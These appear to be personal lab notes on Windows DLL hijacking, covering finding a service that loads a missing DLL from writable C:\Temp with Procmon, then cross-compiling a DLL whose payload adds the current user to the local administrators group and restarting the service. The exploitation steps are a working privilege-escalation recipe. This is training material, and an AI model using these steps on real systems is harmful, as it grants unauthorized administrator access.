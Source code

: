 ```yaml
---
category: Uncategorized
tags: []
---
```


**Detection**

try http://github.com/sensepost/rattler

---
Show DLL's tied to specific exe.
```command prompt - target
tasklist /m | findstr "nvcontainer.exe"
```


Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  

In procmon, select ‘Result’.  

In the input box on the same line type: 

```procmon - windows
NAME NOT FOUND  
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’.


In procmon, select ‘Path’.  
In procmon, select ‘ends with'.  

In the input box on the same line type: 

```procmon - windows
.dll 
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’, and lastly on ‘OK’.  

Open command prompt and type: 

```command prompt - target
sc start dllsvc  
```

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

We have 2 results show up, 1 on "Program Files" and 1 in Temp.

![[Pasted image 20220207150415.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_dll.c` to the Kali VM.

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file hijackme.dll, to the Windows target.

Place hijackme.dll in ‘C:\Temp’.  

Open command prompt and type: 

```command prompt - windows
sc stop dllsvc & sc start dllsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```
